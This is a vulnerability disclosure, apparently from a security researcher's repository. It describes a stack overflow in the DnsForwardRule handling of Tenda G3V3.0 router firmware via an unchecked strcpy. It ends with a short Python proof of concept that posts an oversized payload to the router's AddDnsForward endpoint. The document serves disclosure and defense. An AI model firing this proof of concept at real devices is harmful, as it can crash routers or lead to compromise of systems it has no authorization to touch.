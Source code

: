 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3369.html

## Affected version

G3V3.0 V15.11.0.20

## Vulnerability details

The Tenda G3V3.0 V15.11.0.20 firmware has a stack overflow vulnerability in the `formAddDnsForward` function. The `rules` variable receives the `DnsForwardRule` parameter from a POST request and is passed to function `dns_forward_rule_store` as `rules`. 

![image-20240801115612918](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801115612918.png)

In function `dns_forward_rule_store`, the `rules` is directly assigned to `inputList`. However, since the user can control the input of `DnsForwardRule`, the statement `strcpy((char *)&input_list, (const char *)rules);` can cause a buffer overflow. The user-provided `DnsForwardRule` can exceed the capacity of the `input_list` array, triggering this security vulnerability.

![image-20240801120139970](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801120139970.png)

![image-20240801115928444](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801115928444.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/AddDnsForward"
payload = b"a"*2000

data = {
        'DnsForwardRule':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```
